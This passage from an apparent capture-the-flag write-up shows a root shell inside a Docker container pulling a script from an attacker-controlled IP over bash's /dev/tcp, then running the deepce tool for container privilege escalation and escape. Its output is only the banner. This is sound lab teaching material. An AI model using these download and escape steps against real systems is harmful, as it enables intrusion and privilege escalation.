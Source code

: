 
Now I’ll do the same thing, but this time save it to a file:

    
    
    root@c150397ccd63:/dev/shm# exec 3<>/dev/tcp/10.10.14.6/9001
    root@c150397ccd63:/dev/shm# cat <&3 > deepce.sh             
    ^C
    root@c150397ccd63:/dev/shm# md5sum deepce.sh 
    fbbbd13e42ed84c07f8fde52ac035706  deepce.sh
    

There’s no end to the socket, so I’ll have to Ctrl-c it after a few seconds.
The hashes match, so I’m good there.

### deepce

#### Initial Run

I’ll upload [deepce](https://github.com/stealthcopter/deepce) is a neat tool
for looking for basic Docker vulnerabilities. It hasn’t been significantly
updated in a couple years, but it still does a good job of identifying many
classes of vulnerability. It’s a pure `sh` script with very few dependencies,
so it is likely to run on the most stripped down containers.

I’ll upload it to the container using the method shown above, and give it a
run:

    
    
    root@c150397ccd63:/dev/shm# bash deepce.sh 
    
                          ##         .
                    ## ## ##        ==
                 ## ## ## ##       ===
             /"""""""""""""""""\___/ ===
        ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
             \______ X           __/
               \    \         __/
                \____\_______/
              __
         ____/ /__  ___  ____  ________
        / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
       / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
       \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                     /_/
    
     Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
     by stealthcopter
    
    ==========================================( Colors )==========================================
    [+] Exploit Test ............ Exploitable - Check this out
    [+] Basic Test .............. Positive Result
    [+] Another Test ............ Error running check
    [+] Negative Test ........... No
    [+] Multi line test ......... Yes
    Command output
    spanning multiple lines
    
